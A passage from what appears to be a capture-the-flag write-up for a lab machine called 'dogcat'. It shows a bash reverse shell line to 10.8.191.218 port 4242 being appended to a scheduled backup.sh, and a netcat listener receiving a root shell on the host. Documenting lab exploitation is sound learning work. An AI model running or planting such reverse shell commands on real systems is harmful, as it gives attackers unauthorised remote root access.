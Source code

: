 ```
Let's try changing the script to have a reverse shell insite it

```
root@e6293899f8a5:/opt/backups# echo "bash -i >& /dev/tcp/10.8.191.218/4242 0>&1" >> backup.sh
<-i >& /dev/tcp/10.8.191.218/4242 0>&1" >> backup.sh
root@e6293899f8a5:/opt/backups# cat backup.sh
cat backup.sh
#!/bin/bash
bash -i >& /dev/tcp/10.8.191.218/4242 0>&1
```


After a few minutes:

```                                                         
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.8.191.218] from (UNKNOWN) [10.10.85.34] 56456
bash: cannot set terminal process group (4087): Inappropriate ioctl for device
bash: no job control in this shell
root@dogcat:~# whoami
whoami
root
root@dogcat:~# ls
```
